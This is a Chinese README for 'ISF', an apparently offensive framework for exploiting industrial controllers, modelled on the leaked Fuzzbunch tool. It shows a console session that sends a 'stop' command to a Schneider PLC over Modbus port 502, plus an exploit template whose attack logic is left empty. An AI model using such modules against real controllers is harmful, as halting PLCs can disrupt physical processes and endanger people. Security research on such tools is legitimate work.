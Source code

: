 
# 一、	框架介绍

本框架主要使用Python语言开发，通过集成ShadowBroker释放的NSA工具Fuzzbunch攻击框架，开发一款适合工控漏洞利用的框架。由于Fuzzbunch攻击框架仅适用于Python2.6，很多核心的功能都封装成了DLL，通过函数进行调用，不便于后期的移植和使用。但是，Fuzzbunch的命令行使用的确很方便，而且够傻瓜，所以就有集成一个适合工控漏洞利用的框架想法。新框架对主要的接口使用Python重新实现，所以支持Python2.X版本。

肯定会有人问，有牛逼的MSF，搞这个玩竟儿有什么用？主要基于如下几点考虑

* MSF命令行使用不够傻瓜，纯属个人观点，仅供参考。
* 工控的很多私用协议都使用Python开发，有很多优秀的Python框架（如scapy、kitty），集成在MSF很麻烦，有一个Python的框架会方便很多。
* 最主要的一个原因是，从事工控安全以来，本人一直在使用Python，很多脚本都是基于Python开发的，想将手上所有的资源进行整合，提供一个统一的平台，方便。


# 二、	框架使用

进入目录，执行如下命令：

    python main.py

界面显示如下：

    D:\isf\isf>python main.py

                                   ???
                             ???????????????
                          ?????           ?????
                       ????                   ????
                     ????                       ????
                    ???                           ???
                   ???             ??              ???
                  ???           ????????            ???
                 ???           ???????????           ???
                 ???          ?????????????          ???
                 ??          ???????????????          ??
                 ??         ?????????????????         ??
                 ??        ??????       ?????         ??
                 ??            ???????????            ??
                 ??            ???????????            ??
                 ??             ?????????             ??
                 ???             ???????             ???
                 ???              ?????              ???
                  ???          ???????????          ???
                   ???      ?????????????????      ???
                    ???   ????????????????????    ???
                      ?????????????????????????????
                       ???????????????????????????
                          ?????????????????????
                             ---ICSMASTER---

    + - - - - - + [ Version 1.1.1                           ] + - - - - - +
    + - - - - - + [ MADE BY ICSMASTER. HTTP://ICSMASTER.COM ] + - - - - - +
    
    [*] Loading Plugins
    [*] Initializing isf v1.1.1
    [*] Adding Global Variables
    [+] Set ResourcesDir =>. c:\isf\Resources
    [+] Set Color =>. True
    [+] Set ShowHiddenParameters =>. False
    [+] Set NetworkTimeout =>. 60
    [+] Set LogDir =>. D:\isf\isf\logs
    [*] Autorun ON
    
    Exploit Autorun List
    ====================
    
      0) apply
      1) touch all
      2) prompt confirm
      3) execute
    
    
    Payload Autorun List
    ====================
    
      0) apply
      1) prompt confirm
      2) execute
    
    
    [+] Set ISFStorage =>. D:\isf\isf\storage
    isf >
    
show命令使用，显示当前所有的插件，如下所示

    isf > show
    
    Plugin Categories
    =================
    
      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
    
    isf > show Exploit
    
    Plugin Category: Exploit
    ========================
    
      Name                            Version
      ----                            -------
      Schneider_CPU_Command           1.1.0
      Siemens_300_400_CPU_Control     1.1.0

use命令使用，调用相关插件，并根据命令行提示配置参数，如下所示

    isf > use Schneider_CPU_Command

    [!] Entering Plugin Context :: Schneider_CPU_Command
    [*] Applying Global Variables
    
    [*] Applying Session Parameters
    [*] Running Exploit Touches
    
    
    [!] Enter Prompt Mode :: Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp
      TargetPort      502
      Command         stop
    
    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :
    
    [*]  TargetIp :: Target IP Address
    
    [?] TargetIp [] : 192.168.1.30
    [+] Set TargetIp => 192.168.1.30
    
    [*]  TargetPort :: Target Port
    
    [?] TargetPort [502] :
    [+] Set TargetPort => 502
    
    [*]  Command :: The control command of cpu [stop/start]
    
    [?] Command [stop] :
    [+] Set Command => stop
    
    
    [!] Preparing to Execute Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp        192.168.1.30
      TargetPort      502
      Command         stop
    
    [?] Execute Plugin? [Yes] :
    [*] Executing Plugin
    logging to file
    [+] Schneider_CPU_Command Succeeded


# 三、	EXP编写

编写一个EXP需要包含两个文件，一个参数描述性的文件 *.xml 和 一个漏洞脚本文件 *.py，两个文件的名字需要相同，xml定义输入输出的参数的基本信息，如下所示，EXP需要三个参数，分别是TargetIp、TargetPort、Command。注意：XML文件中 name 字段不能重复。

    <?xml version="1.0"?>
    <t:config id="c72514379eaad943b62f4080a5ae1dc61619f0f3"
              name="Schneider_CPU_Command"
              version="1.1.0"
              configversion="1.1.0.0"
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xmlns:t='tc0'>
    
      <t:inputparameters>    
        <t:parameter name="TargetIp"
                     description="Target IP Address"
                     type="IPv4"/>
        <t:parameter name="TargetPort"
                     description="Target Port"
                     type="TcpPort"
                     default="502"/>
        <t:parameter name="Command"
                     description="The control command of cpu [stop/start]"
                     type="String"
                     default="stop"/>
      </t:inputparameters>
    </t:config>
    
漏洞利用脚本编写方法如下，如果不清楚可以直接拷贝如下模板进行修改

> 1、继承基础类 BaseExploit
 
> 2、填写POC基础信息 register_info

> 3、注册命令行，向register_options变量增加mkopt对象即可，注意参数名称需要与xml文件保持一致

> 4、实现exploit函数

    
    #!/usr/bin/env python
    # coding=utf-8
    from core.exploit import *


    class MyScript(BaseExploit):
    register_info = {
        'ID': 'ICF-2017-00020001',
        'Name': '施耐德昆腾140系列PLC CPU控制',
        'Author': 'w3h',
        'License': ISF_LICENSE,
        'Create_Date': '2017-04-09',
        'Description': '''施耐德昆腾140系列PLC认证用户时Session使用是单比特，导致攻击者可以向PLC发送CPU控制指令。''',

        'Vendor': VENDOR.SID,
        'Device': ['Schneider Quantum 140'],
        'App': '',
        'Protocol': 'modbus',
        'References': {'CVE': '', 'CNVD': '', 'OSVDB': '', 'CNNVD': ''},

        'Risk': RISK.H,  # H/M/L
        'VulType': VULTYPE.REP
    }

    register_options = [
        mkopt_rport(502),
        mkopt('--Command', help='The constrol commond of cpu', dest="Command", default="stop"),
    ]

    def exploit(self, *args, **kwargs):
        cmd = self.getParam("Command")


    MainEntry(MyScript, __name__)
    



